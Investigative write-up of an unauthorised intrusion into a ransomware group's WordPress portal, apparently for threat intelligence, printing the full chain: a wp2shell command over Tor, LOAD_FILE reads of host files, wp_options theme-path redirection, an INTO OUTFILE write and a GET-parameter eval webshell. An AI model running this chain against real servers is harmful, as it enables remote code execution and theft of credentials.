**An alert about Synopsys brought me to D1R. Following the infrastructure took me from wp-admin to phpMyAdmin, and eventually to a daemon shell.**

*Investigation by Ahmed Elessaway. [Abdelhameed Ghazy](https://www.linkedin.com/in/abdelhameed-ghazy-1a50b619a/) helped get the full RCE.*

# TL;DR

- The investigation started from an alert claiming D1R had breached Synopsys and shifted to examining D1R's own portal infrastructure rather than the breach claims themselves.
- The portal ran WordPress. The wp2shell route reached wp-admin, but that access gave no usable way to write files, so the dashboard alone was a dead end.
- An unauthenticated phpMyAdmin instance was exposed, running as a privileged MySQL account with the FILE privilege. That single misconfiguration carried the rest of the chain.
- LOAD_FILE read host files straight from the database session, including /etc/passwd, the Apache config, and wp-config.php (the database password plus all eight WordPress keys and salts, withheld here).
- The usual RCE routes were blocked. The application and system files were not writable, so editing theme files or uploading a plugin returned permission denied, and a wp_options cron deserialization POP chain came close but lacked a complete gadget set for this build. The route that worked wrote a PHP file to a writable temp path with SELECT ... INTO OUTFILE and redirected the theme path in wp_options so WordPress included it, producing code execution as the daemon service account.
- Git configuration and session records then gave a deployment and access trail. No root escalation was proven, and the original breach, supply-chain, and ARM Athena DM leak claims are not independently authenticated here.

The first lead was an alert claiming D1R had breached Synopsys. The more I read, the wider the claims got: a supply-chain angle, leaked ARM Athena DM material, Bosch-related data. I wanted to see how those claims connected, and what the infrastructure publishing them would reveal.



*The D1R portal displaying Synopsys, Arm and Bosch. This capture comes from the later authenticated review, not the original alert or first visit.*

So I started looking at D1R's own infrastructure. The portal lined up recognizable company names next to download controls, but the page alone couldn't tell me how the material was obtained or whether the advertised datasets were real. I went after the technical trail behind the presentation.

The portal ran WordPress. I looked at the wp2shell route and used it to reach wp-admin. That first win came with a limit: the access gave me no usable way to write files. Rather than treat the dashboard as the finish line, I kept going.

The next find was phpMyAdmin. Its SQL interface gave me a different view of the application and a very different set of capabilities. An investigation that started with breach claims ended up producing host-file disclosure, exposed WordPress secrets, recorded code execution, and an infrastructure trail. Those breach and supply-chain claims stay separate, though, from what I could actually substantiate on the portal.

# wp2shell opened wp-admin and the first route stalled

Once it was clear the portal ran WordPress, I examined the wp2shell route, ran the utility, and landed in wp-admin. That was the initial access in this investigation. I'm not pinning it to a specific component or core CVE, though; an update banner and a tool's success message aren't strong enough evidence for that.

For the initial-access record, this was the invocation I used. The onion target is redacted in this public version; the Tor routing and timeout options match the recorded command.

```powershell
py wp2shell.py shell "[ONION_URL_REDACTED]" -i --proxy socks5h://127.0.0.1:9150 --timeout 120
```



*The original terminal capture reports administrator creation and authentication. The onion target, webshell endpoint and generated credential are permanently redacted in this copy. The output also shows failed cleanup and HTTP 404, so this capture alone does not establish a working webshell or identify the underlying vulnerability. The dashboard screenshot below records the resulting wp-admin visibility.*



*The WordPress Users screen during authenticated review, showing the portal administrator and investigation-related accounts. It confirms dashboard visibility, not a specific exploit root cause.*

Reaching the dashboard didn't hand me the write capability I needed. Seeing the admin panel is one thing; having a working path to write or run server-side content is another. With the first route stalled, I kept reviewing the environment and how the site was put together.

The backend showed a familiar stack: WooCommerce, a "Timed Product for WooCommerce" plugin, victim-branded product entries, and a small media library. The account diradmin_leak001 sat there as an administrator, and one profile URL pointed at localhost:8000. That last detail looks like development residue, but it doesn't prove where the original build lived.

Digging further, I found a phpMyAdmin instance tied to the environment, and it opened with no login prompt at all. I went in and started working through the database. This was the point where I stopped being limited to whatever the WordPress dashboard chose to show me.

The earlier write restriction wasn't proof that the whole server was read-only. The database path that followed relied on a different capability and ran in a different context, which is exactly why a dead end in wp-admin could still be followed by progress through phpMyAdmin.

Before I followed that database path, the material sitting in the portal was worth a look on its own. It explained what D1R was presenting as evidence for the claims that started this.

# What the Synopsys evidence actually showed

With backend access I could look at the material behind D1R's claims. One artifact caught the Synopsys SolvNetPlus self-registration workflow: a terminal window sat over the browser, showing fetchmail activity, a returned verification-code value, and a site-ID prompt, while the browser showed a selected site entry associated with Sydney.



*Actor-published material showing SolvNetPlus registration and terminal output. You can see the registration context and the claimed access, but not any successful internal compromise.*

That gave me a concrete workflow to examine: register, verify by email, select a site. What it didn't show was the full authentication process, the privileges of any account that resulted, or access to a protected repository. One screenshot isn't a breach narrative, and I didn't treat it as one.



*The WordPress media library showing nine items, including old_form, new_form, arm_sites, can, sample and brand images.*

The media library put that image in context. Registration-form captures sat next to Arm-related material, a Bosch-branded manual cover, a terminal-listing image, and logos, the portal's published supporting material. It explained how the claim was staged. Filenames and thumbnails, on their own, can't authenticate where the alleged stolen data came from or how complete it is.

# The database boundary did not hold

The phpMyAdmin instance needed no authentication. The SQL interface opened with no login prompt, and the session ran as a privileged MySQL account, the same privilege level the later FILE operations confirm. That unauthenticated, privileged database console was the misconfiguration everything downstream depended on. Inside, I worked through the WordPress database; the broader report records a wordpress.sql export of 2,171,228 bytes. The records were useful on their own, but the bigger development was that a query could also return local files from the database host.

The query below targeted /opt/lampp/etc/httpd.conf, and the result screenshot shows ordinary Linux account records. The x in each record is a password placeholder, not a recovered password or a shadow-file hash.

```sql
SELECT SUBSTRING(
CONVERT(LOAD_FILE('/opt/lampp/etc/httpd.conf') USING utf8mb4),
1, 60000
) AS full;
```



*A separate screenshot shows an explicit LOAD_FILE query for /opt/lampp/etc/httpd.conf, with a successful result and returned Apache configuration text.*

This was server-side file disclosure through a privileged SQL session. LOAD_FILE is a normal database feature, so the finding is about what this deployment exposed and which files were readable under its effective permissions, not about a new phpMyAdmin bug.

The scope was narrower than "read anything," too. Database privileges, the service's OS permissions, file-access policy, and size limits all still apply, and the wrapper asked for at most 60,000 characters after conversion. A visible excerpt proves content came back; it isn't a full forensic copy of every byte.

Even so, the impact mattered. The SQL session was reaching past tables and into the host's configuration files. Once wp-config appeared in the evidence, file disclosure turned into secret exposure.

# wp-config exposed the secrets behind the application

The wp-config.php transcript held the database name wordpress, the application username leakadmin001leak, a plaintext database password, and all eight WordPress authentication keys and salts. The host was localhost and the table prefix was wp\_. I'm withholding the secret values.



*The database account overview showing local root entries with ALL PRIVILEGES and Password: No. On its own, that doesn't establish unauthenticated access from the public internet.*

The configuration also set WP_DEBUG to false and FS_METHOD to direct. Neither one changes the file-read picture: turning off debug output does nothing to stop SQL file reads, and while the direct filesystem method lets WordPress use PHP file operations, its presence alone doesn't prove an attacker can write executable content.

The exposed password needed rotation, and the keys and salts needed replacement with every session invalidated. Their disclosure weakened the protection around authentication material. I didn't have evidence of a forged cookie or a login using that database credential, but a secret can be compromised well before anyone watches it being used.

# The bootstrap file needed a careful reading

I also read through the supplied wp-settings.php. It initializes WordPress, loads core libraries, handles conditional drop-ins and multisite setup, loads active plugins, and includes functions.php for active themes. All of that is routine bootstrap work.

That point matters for the RCE discussion later. The mere presence of include and require statements doesn't mean an attacker controls what gets included; what matters is the integrity of the content being loaded and the permissions around it. The bootstrap file by itself wasn't evidence of another vulnerability.

By now the scope had grown from database contents to files and application secrets. The next piece of evidence showed the investigation had also reached code execution.

# What the host looked like from the blue-team side

I also pulled the system and service observations into a host profile. From a blue-team perspective, that turns scattered SQL results and readable configuration files into something useful for an investigation: a host to identify, services to inventory, paths to preserve, and identities to keep separate.



*The /etc/os-release result identifies Debian GNU/Linux 12 (Bookworm). This is the original embedded screenshot extracted from exhibit E07 on page 12 of the supplied consolidated assessment; the visible result is truncated.*

| Field | Observed value / source | Blue-team interpretation |
| --- | --- | --- |
| Hostname | vpserver01, from /etc/hostname and MariaDB @@hostname in the supplied observations | Useful for correlating host and database records; a hostname is not an operator identity. |
| Operating system | Debian GNU/Linux 12 (Bookworm); /etc/debian_version reported as 12.15 in the supplied configuration excerpt | Record the distribution and package state separately. The OS screenshot establishes Bookworm, not the full point-release value by itself. |
| Timezone | Etc/UTC, from /etc/timezone | A reference for the timeline. The timezone used by Apache's timestamps still needs independent confirmation. |
| Architecture | x86_64, reported by the MariaDB build target | A build/platform observation, not proof of a vulnerable package. |
| Database | 10.4.32-MariaDB / Source distribution | An observed version string for inventory; patch state needs package and advisory validation. |
| SQL execution identity | CURRENT_USER() = root@localhost | Database administrative identity. It does not establish Linux UID 0. |
| Installation base | /opt/lampp | Strong evidence of an XAMPP/LAMPP layout, corroborated by the supplied configuration. |
| Database storage | /opt/lampp/var/mysql/ | A location for the database artifacts and relevant service logs, subject to the actual configuration. |
| Local DB socket | /opt/lampp/var/mysql/mysql.sock | A local connection endpoint; its presence says nothing about public reachability. |
| Configured DB TCP port | 3306 | A configured port, not proof that it is exposed through the host firewall or upstream network. |
| Server character set / collation | utf8mb4 / utf8mb4_general_ci | Context for interpreting query results and text conversion. |
| Logged web-stack banner | Apache 2.4.58; OpenSSL 1.1.1w; PHP 8.2.12; mod_perl 2.0.12; Perl 5.34.1 | Describes the banner at the logged time, not independently verified current patch state. |
| Resolver and search suffix | 1.1.1.1; initech.global | DNS configuration evidence. The search suffix does not prove domain ownership or organizational affiliation. |
| hosts file | 127.0.0.1 mapped to localhost and vpserver01; ::1 mapped to localhost | Local name mappings to retain when interpreting loopback traffic and logs. |



*Exhibit E06 on page 11 of the consolidated assessment shows Linux/x86_64 and the /opt/lampp installation, data and plugin paths. These are MariaDB query results; Linux root privileges are not established by them.*

The useful pattern here was the combination of a familiar LAMPP layout and different privilege boundaries. A root@localhost database session could coexist with denied writes to application directories and PHP executing as daemon. Those are separate identities and permissions, so I kept them separate in the host profile as well.

*Source context: these additions use the supplied system/configuration excerpt and host observations in the November 15 consolidated PDF, which labels itself an authorized CTF assessment. They are supplied evidence, not an independent live verification or external corroboration of actor attribution. Its earlier execution/callback conclusions do not replace the later evidence already described in this article.*

# Account names became useful when tied to activity

The account list added context about the machine, but it needed the same discipline as the service inventory. A row in /etc/passwd can show an account and its configured shell. It cannot tell me that a service was running, that somebody logged in, or who controlled the account.

| Account / indicator | Observed detail | Interpretation |
| --- | --- | --- |
| root | UID 0; /bin/bash | Standard local superuser account. Its presence is not evidence that the investigation reached root. |
| user | UID 1000; /bin/bash | Interactive account; human owner unknown. The session and SSH records discussed later provide the activity evidence. |
| mysql | UID 999; /bin/sh | Database-related service account with a shell configured. The account entry alone does not establish the active database process UID. |
| daemon | Later command output shows UID 1 and GID 1 | The demonstrated PHP/OS execution context in this investigation, distinct from the database's root@localhost session. |
| debian-tor | /bin/false | Tor package/service account present; the account alone does not establish a running onion service. |
| sshd / Debian-exim | /usr/sbin/nologin | SSH- and Exim-related accounts present; service and authentication logs are needed for activity claims. |
| x2gouser / x2goprint | /bin/false and /bin/sh | X2Go-related accounts present; no remote-desktop session or operator identity is established by those entries. |
| lightdm / pulse | Service accounts present | Desktop-login and audio components are suggested, not proof of an interactive desktop session. |

The distinction also matters for credentials. /etc/passwd normally holds account metadata, with x indicating that password verification data is stored elsewhere. The account disclosure shown earlier was not a successful read of /etc/shadow or a recovery of usable password hashes.

# The RCE turning point was a daemon shell

From this point the work was a collaboration. The write capability the wp-admin route never gave us came from the database layer instead. The phpMyAdmin instance needed no authentication, and the MySQL account behind it held the FILE privilege, the same one the LOAD_FILE reads above already demonstrated. FILE works in both directions: LOAD_FILE reads host files, and SELECT ... INTO OUTFILE writes attacker-chosen bytes to a path on the database host.

Having a write primitive did not mean the usual WordPress RCE routes were open. The application and system paths were not writable by this account. Overwriting an existing theme file, editing functions.php in place, and dropping a new plugin all came back as permission denied, so the common approach of writing a webshell into the webroot was closed off from the start.

We also spent time on a PHP object-injection path. The serialized cron entry in wp_options is unserialized whenever WordPress reads it, which makes it a deserialization sink, and we tried to build a POP chain through it. This WordPress build did not expose a complete, usable gadget set to finish the chain. It came close, close enough to be worth the attempt, but it never produced execution.

The route that worked used WordPress's own theme loading. WordPress builds the active theme's path from the template and stylesheet values in wp_options and includes that directory's functions.php on every request, and those values are never checked for path traversal. Pointing them at a relative path walked the theme root out of wp-content/themes and into a directory we controlled:

```sql
UPDATE wp_options SET option_value='../../../../../var/tmp' WHERE option_name='template';
UPDATE wp_options SET option_value='../../../../../var/tmp' WHERE option_name='stylesheet';
```

With the theme root now resolving to /var/tmp, WordPress would include /var/tmp/functions.php. INTO OUTFILE supplied that file. A first write confirmed the include actually fired:

```sql
SELECT '<?php var_dump(1); ?>'
INTO OUTFILE '/var/tmp/functions.php';
```

Once the page echoed that marker, functions.php carried a minimal eval shell:

```php
<?php var_dump(1); if($_GET[0]){eval($_GET[0]);}?>
```

An earlier attempt under /tmp did not execute, while /var/tmp did. The whole chain lived in the database and the wp_options table, with no write to the web root itself.

Unauthenticated phpMyAdmin → MySQL FILE privilege (SELECT ... INTO OUTFILE to write, LOAD_FILE to read) → PHP-bearing file written to disk → wp_options theme-path redirection (template / stylesheet) → WordPress theme include → execution as daemon



*The listener screenshot shows a shell returning daemon. The displayed peer is loopback, so that field doesn't identify any remote public origin.*



*The eval shell reached through the browser. It returns int(1), the shell's own marker, followed by uid=1(daemon) gid=1(daemon) groups=1(daemon),1000(user) from id. The command was passed base64-encoded (aWQ=) to clear WordPress input filtering.*

That output puts command execution in the daemon service account. It is not a root shell, and it does not show privilege escalation or a read of /etc/shadow.

The exact write-and-load sequence is less fully recorded than the execution outcome. The supplied materials don't capture every intermediate database result or the written file's owner and mode. So we treat that sequence as the reported mechanism and the visible command output as the stronger evidence.

Why /tmp failed while /var/tmp reportedly worked isn't established by these artifacts. There's also no final readback confirming that the theme and logging settings were restored or that the temporary PHP was removed. A note saying cleanup was done isn't evidence that it was.

Even without reaching for an unproven root-compromise claim, the consequence was serious: a remote execution endpoint and a shell running with the daemon account's permissions. The next phase looked at what that environment gave up.

# A Git configuration revealed a deployment trail

Inside /home/user/new-theme/.git, a remote named production pointed to root@205.196.83.133:/opt/deploy/new-theme/repo.git. A small config file, but with a useful infrastructure relationship baked into it.



*The production remote in the local Git configuration. The root username is config text, not proof of credentials, authentication, or access to that host.*

The Git transcripts showed local master and the production tracking ref at the same commit. Three commits, dated April 1, 3, and 4, 2026, ran from an initial commit through download-link styling to a download-button fix. The newest change listed shop-related CSS and JavaScript; the one before it touched functions.php and footer.php.

The generic identity root \<root@debian.debian\> ran through the whole history. Those fields and the +03:00 offset don't identify a person or a place; Git authors, committers, and dates are all set locally and can be anything. Backup variants and an editor swap file pointed to development residue, but they didn't prove which files the live portal actually served.

# Session records supplied a different kind of address



*Two user terminal entries showing source address 5.228.116.200 and sudo -i. Existing admin sessions aren't proof that the investigator's daemon session escalated.*

The full transcript also showed an established SSH connection from 5.228.116.200 and historical user logins from several other 5.228.116/117 addresses. Enrichment tied some of those addresses to AS42610 and to Russian provider and location labels. I treated that as service-reported context, not proof of anyone's nationality or physical location.

Three address roles had to stay separate: a configured Git deployment destination, the login-source fields, and the earlier public egress observation of 157.254.167.45. Collapsing them into a single "real IP" would throw away the different evidence behind each one.

# VirusTotal added context to the login sources

The login-source addresses were useful pivots for context, so I kept the VirusTotal captures alongside the session evidence. They describe what the service displayed when captured; I did not turn their detection counters or provider labels into a verdict about the person behind a session.

